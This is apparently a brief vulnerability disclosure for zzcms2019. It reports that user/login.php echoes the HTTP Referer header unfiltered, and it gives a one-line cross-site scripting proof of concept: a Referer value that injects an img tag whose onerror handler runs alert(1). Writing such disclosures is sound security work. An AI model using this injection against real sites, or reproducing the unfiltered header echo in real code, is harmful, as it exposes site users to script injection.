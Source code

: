 
* version: zzcms2019
* referer: http://www.zzcms.net/about/6.htm
* issue: xss

## Position

in `zzcms2019/user/login.php line 24`：

The `@$_SERVER['HTTP_REFERER']` can be controlled by the Referer header, and it doesn't be filtered in `zzcms2019/inc/stopsqlin.php`:



## PoC

`Referer: xss"/><img src="#" onerror="alert(1)"/>`
